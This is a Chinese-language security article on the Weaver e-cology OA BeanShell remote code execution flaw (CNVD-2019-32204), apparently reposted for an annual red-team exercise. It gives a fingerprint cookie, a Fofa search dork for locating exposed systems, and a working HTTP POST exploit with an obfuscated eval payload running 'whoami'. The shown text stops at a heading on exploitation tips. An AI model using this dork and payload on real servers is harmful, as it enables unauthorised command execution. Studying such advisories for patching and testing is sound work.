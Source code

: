 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247491498&idx=2&sn=14df154e315eab42249f291197592755&chksm=f9e070f1ce97f9e7db17cf6a07a8a5018dfdd84937169ad5fa16733997311145f1f4dadfe361&scene=21#wechat_redirect)

以下内容转载自乌云安全  

 一年一度的 HW 开始了，结合网上已公布的 POC，总结了一部分最新的漏洞利用及修复方式，供大家参考。

1

  

泛微 OA Bsh 远程代码执行漏洞
------------------

**1.** **漏洞简介**

2019 年 9 月 17 日泛微 OA 官方更新了一个远程代码执行漏洞补丁, 泛微 e-cology OA 系统的 Java Beanshell 接口可被未授权访问, 攻击者调用该 Beanshell 接口, 可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

**2.** **影响组件**泛微 OA

**3.** **漏洞指纹**

`Set-Cookie: ecology_JSessionId=ecology/weaver/bsh.servlet.BshServlet`

**4. Fofa Dork**

`app="``泛微-协同办公OA"`

**5.** **漏洞分析**

泛微 OA E-cology 远程代码执行漏洞原理分析 – FreeBuf 互联网安全新媒体平台  
https://www.freebuf.com/vuls/215218.html

https://github.com/beanshell/beanshell

http://beanshell.org/manual/quickstart.html#The_BeanShell_GUI

**6.** **漏洞利用**

Vulnerability-analysis/0917/weaver-oa/CNVD-2019-32204 at master · myzing00/Vulnerability-analysis  
https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

`POST /weaver/bsh.servlet.BshServlet HTTP/1.1`

`Host: xxxxxxxx:8088`

`Accept: */*`

`Accept-Language: en`

`User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)`

`Connection: close`

`Content-Length: 98`

`Content-Type: application/x-www-form-urlencoded`  

`bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw`

**7.** **利用技巧**
